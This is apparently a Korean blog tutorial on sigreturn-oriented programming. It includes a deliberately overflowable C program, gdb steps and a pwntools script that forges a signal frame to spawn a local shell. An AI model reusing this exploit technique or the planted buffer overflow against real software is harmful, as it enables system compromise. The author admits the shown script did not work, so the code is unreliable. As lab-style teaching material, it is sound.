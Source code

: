 ```yaml
---
layout: post
title: "Sigreturn oriented programming"
excerpt: "Try to know SROP & use it ~_~"
categories: [system]
comments: true 
---
```


이번에는 ROP의 다른 종류(?) 느낌인 SROP에 대하여 알아보자.

### 0x0 SROP?

sigreturn 시스템 콜을 이용하여 레지스터에 원하는 값을 저장하는 기법 > 이를 이용하여 원하는 시스템 함수를 호출

ROP를 하기에 가젯이 불충분할 경우 주로 사용 > 많은 가젯이 필요하지 않고 INT80 가젯만으로 충분



### 0x1 singal

SROP는 sigreturn으로 쉘을 따는데, sigreturn을 syscall table에서 찾아보면 eax로 119를 넘겨주면 실행되고, 파라미터로는 unsigend long이 요구된다.

시그널을 받은 프로세스가 커널 모드에서 유저모드로 복귀할 때 사용하는 system call이 sigreturn system call이다. 



### 0x2 example

```c
#include <stdio.h>

void int80(){
asm("int $0x80");
}

int main(){
char buf[8];
read(0,buf,128);
}
```

위와 같은 코드가 있을 때,  우리는 SROP를 하기 위해 read에서 bof를 발생 시킨 후 eax를 조작하고 ret addr를 int 0x80으로 넘겨줘야한다.  후에 이를 이용하여 /bin/sh을 실행시킨다. 119개의 문자열을 입력하고 int 0x80으로 ret하면 sigreturn함수가 호출된다. 

![srop1](/img/srop1.png)

우선 read다음으로 breakpoint를 걸고 A를 118개를 넣어본다. 그 후  x/40wx $rsp를 보면 아래같이 A로 가득찬걸 볼 수 있다.

![srop2](/img/srop2.png)

다음으로는  i r 을 통하여 레지스터 값을 본다.

![srop3](/img/srop3.png)

레지스터 값을 보면 rax 레지스터에 0x77이 들어가있는걸 확인할 수 있다. 이  0x77이 바로 sigreturn의 syscall number이다.  이제는 ret addr을 int 0x80 gadget으로 덮어씌우자. 

이제 int 0x80 함수를 보면 아래와 같다.

![srop4](/img/srop4.png)

이제 int80의 주소를 main의 ret addr에 넣을것이다 . gdb에서 set {int}0xffffd1d0=0x08048413를 이용하여 가능하다.

![srop5](/img/srop5.png)

이렇게 잘 덮어씌어진걸 알 수 있다.  이제는 sigreturn를 호출하는 sigcontext.h 구조체를 봐야한다.

```c
struct sigcontext{
  unsigned short gs, __gsh;
  unsigned short fs, __fsh;
  unsigned short es, __esh;
  unsigned short ds, __dsh;
  unsigned long edi;
  unsigned long esi;
  unsigned long ebp;
  unsigned long esp;
  unsigned long ebx;
  unsigned long edx;
  unsigned long ecx;
  unsigned long eax;
  unsigned long trapno;
  unsigned long err;
  unsigned long eip;
  unsigned short cs, __csh;
  unsigned long eflags;
  unsigned long esp_at_signal;
  unsigned short ss, __ssh;
  struct _fpstate * fpstate;
  unsigned long oldmask;
  unsigned long cr2;
};
```

이제 이를 참고하여 exploit code를 작성해보자.



### 0x3 exploit :

```python
from pwn import *
p = process('./srop')

syscall = 0x08048413

payload = "A"*20
payload += p32(syscall)
payload += p32(0x33)
payload += p32(0)
payload += p32(0x7b)
payload += p32(0x7b)
payload += p32(0)
payload += p32(0)
payload += p32(0) #ebp
payload += p32(0) #esp
payload += p32(0xffffd184)

payload += p32(0)
payload += p32(0)
payload += p32(0xb)
payload += p32(0)
payload += p32(0)
payload += p32(syscall)
payload += p32(0x73)
payload += p32(0x246)
payload += p32(0)
payload += p32(0x7b)
payload += "\x00"*(118-len(payload))

p.sendline(payload)
p.interactive()
```

아니 난 왜 대체 익스가 안되나 계속 생각해봤는데 아직도 모르겠다. 왜 계속 다른 레지스터들은 변조가 되는데 eip랑 ecx는 변조가 안될까...  결국 그냥 다시 코딩해서 해결했다. 왜 처음엔 안된걸까 

